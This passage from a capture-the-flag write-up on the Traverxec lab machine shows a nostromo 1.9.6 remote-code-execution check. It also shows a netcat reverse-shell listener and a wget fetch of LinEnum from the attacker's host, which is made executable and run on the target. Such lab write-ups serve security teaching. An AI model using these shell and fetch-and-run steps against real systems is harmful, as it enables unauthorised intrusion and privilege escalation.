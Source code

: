 ```
                                                                                                                    
                                                                                                                     
HTTP/1.1 200 OK                                                                                                      
Date: Fri, 10 Apr 2020 04:14:29 GMT                                                                                  
Server: nostromo 1.9.6                                                                                               
Connection: close                                                                                                    
                                                                                                                     
                                                                                                                     
www-data         
```

Having confirmed that the RCE allows you to simply execute whatever you pass as the last argument to the script, I grabbed a shell by starting the netcat listener on 1234 with ```nc -nvlp 1234```, and running the python script as below:

![sploit](https://opalsec.github.io/assets/images/traverxec/sploit.png)

# Internal Recon

After upgrading the shell, I hosted the [LinEnum](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh "LinEnum") script using Python's SimpleHTTPServer and ran it on the host

```
www-data@traverxec:/tmp$ wget http://10.10.14.2:8000/LinEnum.sh 
wget http://10.10.14.2:8000/LinEnum.sh 
--2020-04-10 00:59:53--  http://10.10.14.2:8000/LinEnum.sh                                                           
Connecting to 10.10.14.2:8000... connected.                                                                          
HTTP request sent, awaiting response... 200 OK                                                                       
Length: 46631 (46K) [text/x-sh]                                                                                      
Saving to: 'LinEnum.sh'                                                                                              
                                                                                                                     
LinEnum.sh          100%[===================>]  45.54K  76.2KB/s    in 0.6s                                          
                                                                                                                     
2020-04-10 00:59:54 (76.2 KB/s) - 'LinEnum.sh' saved [46631/46631]                                                   
                                                                                                                     
www-data@traverxec:/tmp$ chmod +x LinEnum.sh                                                                         
chmod +x LinEnum.sh                                                                                                  

www-data@traverxec:/tmp$ ./LinEnum.sh
```
